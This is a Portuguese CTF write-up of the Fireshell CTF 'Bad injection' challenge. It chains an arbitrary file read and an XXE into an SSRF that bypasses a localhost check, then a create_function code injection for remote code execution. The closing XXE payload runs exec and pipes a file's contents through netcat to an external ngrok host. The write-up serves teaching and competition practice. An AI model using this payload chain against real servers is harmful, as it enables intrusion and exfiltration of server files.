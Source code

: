 # Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Levantamento de informações 

![index](https://i.imgur.com/vtZ1BiQ.png)

Acessando as 3 primeiras abas disponíveis **home**, **about** e **contact**, nada de útil nos é apresentado. Mas, acessando a aba **List**, a página nos retorna o icone de uma "imagem
corrompida" ao lado da imagem carregada.

Analisando a source desta página, é possível ver uma passagem de parâmetros:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```

eis a "imagem corrompida". Com estes parâmetros, podemos ler qualquer arquivo dentro do server. Os requisitos são:
* o path do arquivo estar exato
* o parâmetro **hash** deve conter o md5 do arquivo buscado.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploração

Varrendo o server, é possível encontrar o arquivo **Routes.php** dentro do diretório **/app/** onde é necessária alguma entrada de solicitação http.

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...

E o arquivo **Custom.php** em **/app/Controllers/** .

    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>


Utilizando do XXE, também podemos retornar arquivos do servidor.

![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass

no arquivo **Routes.php** citado acima, também é possível ver o seguinte trecho de código:

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```

Esse trecho verifica se a solicitação vem do localhost dentro de uma estrutura condicional. Caso venha, realizada a chamda em Admin::sort.

Observando o arquivo **Admin.php** (também baixado fuçando o server), vemos que Admin::sort contém:

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));


que nos dá uma clara injeção de código.

---
Desta forma, precisamos utilizar do XXE fazer o bypass da verificação do localhost e logo depois fazer uma request para /Admin, que nos retorna a execução remota de código.

o árduo payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://SEU_IP/file.xml&order=link.file_get_contents('http://SEU_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'0.tcp.ngrok.io'.chr(32).'12776'))">
    ]>
    <root><name>&xxe;</name></root>

* o arquivo **file.xml** deve ser upado no seu servidor, com um rss válido com a route e adminsort para a reques.

a saída:

![flag](https://i.imgur.com/FyBD4eq.png)

**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**

## Considerações finais

Não conseguimos matar a flag no decorrer do campeonato, mas depois de apanhar mais que saco que pancadas, a flag surgiu e com ela o aprendizado. Parabéns à equipe Fireshell por proporcionar um ótimo campeonato.